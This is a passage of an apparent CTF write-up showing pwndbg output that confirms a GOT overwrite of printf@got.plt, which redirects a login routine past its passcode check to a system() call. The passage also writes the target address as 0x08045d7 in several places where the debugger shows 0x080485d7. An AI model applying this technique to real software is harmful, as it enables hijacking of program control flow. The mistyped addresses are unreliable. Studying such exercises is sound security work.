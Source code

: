        0xf7fd2000 0xf7fd3000     0x1000        0x0 /usr/lib/i386-linux-gnu/ld-2.31.so       0xf7fd3000 0xf7ff0000    0x1d000     0x1000 /usr/lib/i386-linux-gnu/ld-2.31.so       0xf7ff0000 0xf7ffb000     0xb000    0x1e000 /usr/lib/i386-linux-gnu/ld-2.31.so       0xf7ffc000 0xf7ffd000     0x1000    0x29000 /usr/lib/i386-linux-gnu/ld-2.31.so       0xf7ffd000 0xf7ffe000     0x1000    0x2a000 /usr/lib/i386-linux-gnu/ld-2.31.so       0xfffdd000 0xffffe000    0x21000        0x0 [stack]
{% endhighlight %}

Recall that 134514135 is 0x080485d7 in hex and it points to the location between the if statement and system call.

{% highlight bash %}
pwndbg> p/x 134514135  
$1 = 0x80485d7  
pwndbg> find 0x8048000,0x806d000,0x80485d7  
0x804a000 <printf@got.plt>  
warning\: Unable to access 15357 bytes of target memory at 0x8069404, halting search.  
1 pattern found.  
pwndbg> x/x 0x804a000  
0x804a000 <printf@got.plt>\:     0x080485d7
{% endhighlight %}

Note that the find command has the syntax find _start_address, _end_address, _what_to_look_for

The pointer for printf() was successfully overwritten to 0x08045d7. Observe that this is different from the printf pointer before the exploit\:

{% highlight bash %}
pwndbg> x/x 0x804a000  
0x804a000 <printf@got.plt>\:     0x08048426
{% endhighlight %}

When stepping one instruction, it is expected that from the printf() call, the program will look at the GOT entry of printf(). The program will then be tricked to believe that the code for printf() can be found at 0x08045d7, and the EIP will therefore point to 0x08045d7\:

{% highlight bash %}
=> 0x080485a0 <+60>\:    call   0x8048420 <printf@plt>

pwndbg> x/x $eip  
0x80485a0 <login+60>\:   0xfffe7be8

pwndbg> s  
0x080485d7 in login ()LEGEND\: STACK | HEAP | CODE | DATA | RWX | RODATA  
──────────────────────────────────────────────[ REGISTERS ]──────────────────────────────────────────────EAX  0x8048786 ◂-- outsb  dx, byte ptr gs\:[esi] /* 'enter passcode2 \: ' */EBX  0x0ECX  0x0EDX  0xffffffffEDI  0xf7faf000 (_GLOBAL_OFFSET_TABLE_) ◂-- 0x1e4d6cESI  0xf7faf000 (_GLOBAL_OFFSET_TABLE_) ◂-- 0x1e4d6cEBP  0xffffd038 --▸ 0xffffd058 ◂-- 0x0  
*ESP  0xffffd00c --▸ 0x80485a5 (login+65) ◂-- mov    eax, 0x8048783  
*EIP  0x80485d7 (login+115) ◂-- mov    dword ptr [esp], 0x80487a5  
───────────────────────────────────────────────[ DISASM ]────────────────────────────────────────────────  
► 0x80485d7 <login+115>    mov    dword ptr [esp], 0x80487a5  
  0x80485de <login+122>    call   puts@plt <puts@plt>  
  
  0x80485e3 <login+127>    mov    dword ptr [esp], 0x80487af  
  0x80485ea <login+134>    call   system@plt <system@plt>
{% endhighlight %}
